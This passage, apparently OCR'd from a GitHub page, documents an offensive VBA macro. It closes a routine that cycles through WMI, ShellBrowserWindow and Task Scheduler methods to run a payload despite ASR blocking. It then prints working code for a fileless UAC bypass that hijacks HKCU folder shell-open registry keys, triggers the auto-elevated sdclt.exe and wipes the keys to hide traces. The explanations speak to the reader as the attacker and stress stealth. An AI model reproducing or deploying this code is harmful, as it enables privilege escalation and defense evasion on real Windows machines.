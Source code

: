 ```
    End If
    
    On Error GoTo 0
End Sub
```

#### Explanation:

Tries multiple methods to execute the payload:

1. `WmiExec`
2. `ShellBrowserWindowExec`
3. `SchedulerExec`

If **one method fails or is blocked** (e.g., by **ASR rules**), **error handling** immediately **clears the error** and **moves to the next method**.

#### 5. Fileless UAC Bypass Using Sdclt.exe

```
Private Sub BypassUAC_Windows10(targetPath As String)
    Dim wshUac As Object
    Set wshUac = CreateObject("WScript.Shell")
    
    ' Registry keys for UAC bypass
    Dim regKeyCommand As String
    Dim regKeyCommand2 As String
    
    regKeyCommand = "HKCU\Software\Classes\Folder\Shell\Open\Command\"
    regKeyCommand2 = regKeyCommand & "DelegateExecute"
    
    ' Create the malicious keys
    wshUac.RegWrite regKeyCommand, targetPath, "REG_SZ"
    wshUac.RegWrite regKeyCommand2, "", "REG_SZ"
    
    ' Trigger UAC bypass using sdclt.exe
    ExecuteCmdAsync "C:\Windows\System32\sdclt.exe"
    
    ' Optional sleep to allow execution
    MySleep 3
    
    ' Clean up registry to remove traces
    wshUac.RegDelete "HKCU\Software\Classes\Folder\Shell\Open\Command\"
    wshUac.RegDelete "HKCU\Software\Classes\Folder\Shell\Open\"
    wshUac.RegDelete "HKCU\Software\Classes\Folder\Shell\"
    wshUac.RegDelete "HKCU\Software\Classes\Folder\"
End Sub
```

#### Explanation:

- **Registers a malicious shell open command** for folders under `HKCU`.
- **sdclt.exe** is a **high-integrity, auto-elevated binary** (auto UAC bypass) that opens **Folders**, and thus **executes** your payload **elevated**.
- After **payload execution**, **registry keys are wiped**, making it **fileless** and **stealthy**.
